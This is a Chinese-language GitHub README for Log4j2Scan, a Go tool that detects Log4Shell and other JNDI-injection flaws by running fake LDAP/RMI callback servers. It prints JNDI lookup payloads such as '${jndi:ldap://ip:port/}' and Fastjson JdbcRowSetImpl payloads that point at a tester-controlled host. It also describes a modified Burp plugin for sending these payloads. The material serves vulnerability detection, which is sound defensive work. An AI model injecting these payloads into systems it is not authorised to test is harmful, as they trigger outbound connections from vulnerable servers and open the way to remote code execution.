 # Log4j2Scan

![](https://img.shields.io/badge/build-passing-brightgreen)
![](https://img.shields.io/badge/golang-1.17-blue)

## 介绍
该项目由 天下大木头 与 4ra1n师傅 共同开发，感谢4ra1n师傅的许多帮助
 
这是什么？

该项目一款无须借助`dnslog`且完全无害的log4j2反连检测工具，解析`RMI`和`LDAP`协议实现，可用于甲方内网自查

特点：
- 由`Golang`编写，直接运行可执行文件进行检测
- 动态渲染数据到`web`页面，方便观察结果

![](https://github.com/KpLi0rn/Log4j2Scan/blob/main/img/001.png)

## 使用

使用`${jndi:ldap://ip:端口/}`这样的`Payload`

如果目标存在漏洞，该项目就会收到`ldap/rmi`请求，从而快速定位哪些目标存在漏洞

Demo
![](https://github.com/KpLi0rn/Log4j2Scan/blob/main/img/002.png)

根据自己操作系统下载对应的可执行文件：[下载地址](https://github.com/KpLi0rn/Log4j2Scan/releases/tag/v0.0.1)

命令：`./Log4j2Scan -p port(默认8001) -wp webport(默认8888)`

```text
    __                __ __  _ _____
   / /   ____  ____ _/ // / (_) ___/_________ _____
  / /   / __ \/ __ `/ // /_/ /\__ \/ ___/ __ `/ __ \
 / /___/ /_/ / /_/ /__  __/ /___/ / /__/ /_/ / / / /
/_____/\____/\__, /  /_/_/ //____/\___/\__,_/_/ /_/
 /____/    /___/
    coded by 天下大木头 & 4ra1n
[+] [16:36:26] use port: 8000
[+] [16:36:26] use http port: 8888
[+] [16:36:26] start fake reverse server
[+] [16:36:26] start result http server
|------------------------------------|
|--Payload: ldap/rmi://your-ip:port--|
|------------------------------------|
```

只需要将`Payload`设置为：`ldap://your-ip:port`或`rmi://your-ip:port/xxx`

然后访问：`localhost:8888`即可动态查看最新结果

注意：`rmi`方式payload要为 `${jndi:rmi://127.0.0.1:8001/xxxx}` 类似这种形式

## 配合release中的burp插件使用

简单修改了 https://github.com/whwlsfb/Log4j2Scan 项目的插件，感谢师傅允许二开

使用教程如下：

正常导入burp插件，使用 ceye 模块 注：只有ceye模块被修改了

Log4j2hostIp处填写 VPS的ip和端口，下面的任意填写
![](https://github.com/KpLi0rn/Log4j2Scan/blob/main/img/003.png)

启动工具

![](https://github.com/KpLi0rn/Log4j2Scan/blob/main/img/004.png)

启动漏洞环境，利用 burp 进行抓包，反连平台成功收到请求

![](https://github.com/KpLi0rn/Log4j2Scan/blob/main/img/005.png)




## 拓展

不止用于`Log4j2`框架，也可用于检测存在`JNDI`注入的其他框架

例如`Fastjson`的检测：

```text
{
	"@type": "com.sun.rowset.JdbcRowSetImpl",
	"dataSourceName": "rmi://your-ip:port",
	"autoCommit": true
}

{
	"@type": "com.sun.rowset.JdbcRowSetImpl",
	"dataSourceName": "ldap://your-ip:port",
	"autoCommit": true
}
```
